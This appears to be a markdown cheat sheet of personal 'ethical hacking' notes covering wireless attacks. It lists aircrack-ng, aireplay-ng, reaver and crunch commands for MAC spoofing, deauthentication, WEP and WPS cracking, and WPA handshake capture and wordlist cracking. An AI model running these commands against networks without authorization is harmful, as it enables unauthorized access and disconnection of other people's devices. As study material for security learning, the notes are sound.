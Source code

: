 # Ethical Hacking Notes
___

## The Rules

- [x] Don't be a ass.
- [x] Have Fun.
- [ ] Learn Something New.
___

### Changing your device's MAC Address

- First, ensure device is visible with `ifconfig` or `iwconfig`

- Next, take device down with `ifconfig <device name> down`
 
- Next, change the MAC Address with `ifconfig <device name> hw ether <MAC Address>` where MAC Address follow format 00:00:00:00:00:00

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Change Wirless Adapter to Utilize Monitor Mode

- First, ensure device is visible and not in monitor mode with `iwconfig`

- Next, bring down the device with `ifconfig <device name> down`

- Next, kill off processes that might interfere with aircrack-ng suit by running `airmon-ng check kill`

- Next, update monitor mode by running `iwconfig <device name> mode monitor`

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Packet Sniffing Using Airodump-ng

- To start packet sniffing, run `airodump-ng <device name>` where device name is your wireless adapter in monitor mode

- To specify the band frequency, utilize the `--band` argument

   `airodump-ng --band abg <device name>` will capture packets over 2.4 and 5 Ghz simultaniously

- In order to sniff packets on a specific network utilize the below command

   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

___

### Deauthentication Attack with aireplay-ng

- To disconnect any device from any router utilize the command:

   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

:+1:**DO NOT DO THIS TO A NETWORK OR DEVICE YOU DO NOT OWN OR HAVE PERMISSION TO...**:+1:

___

### Cracking  and Connecting to a WEP Wifi Network

##### High Volume WEP Wifi Network Cracking
- In order to crack a WEP, we need a large ammount of packets from a high volume network.

- Run aircrack-ng with the .cap file to crack the key

   `aircrack-ng <name of .cap file>` 

##### Low Volume WEP Wifi Network Cracking
- Utilize airodump-ng to sniff packets on the victum network as seen above.

- To associate your device to the network utilize aireplay-ng by running the command

   `aireplay-ng --fakeauth 0 -a <Router MAC> -h <Your Device unspec> <device name>` 

- Run an ARP Attack on the network by running the command
   `aireplay-ng --arpreplay -b <Router MAC> -h <Your Device unspec> <device name>`

- Run aircrackpng with the .cap file similar to above to crack the key
___

### Exploiting WPS Feature for WPA/WPA2 Wifi Network

- First, run reaver WPS cracker utilzing the command 

   `reaver --bssid <Network MAC> --channel <channel #> --interface <device name> -vvv --no-associate`

- next, associate your device to the network utilizing above command

___

### Capturing a WPA/WPA2 Handshake

- First, start packet sniffing a specific network utilizing the command
   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

- Next, run a deauthentication attack on a particular device utilizing the command
   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

___

### Cracking a WPA/WPA2 handshake with a wordlist Attack

- First, utilize the above section to capture a handshake.

- Next, ensure you have a large word list, github has large common password files

- Lastly, we need to utilize aircrack-ng to try and crack the handshake against the password file
   `aircrack-ng <handshake capture file .cap> -w <password txt file>`

___

### Creating your own password wordbank

- `crunch <min pass> <max pass> <Letters or numbers> -o <file name txt> -t <known format (he@@owor@d)> 
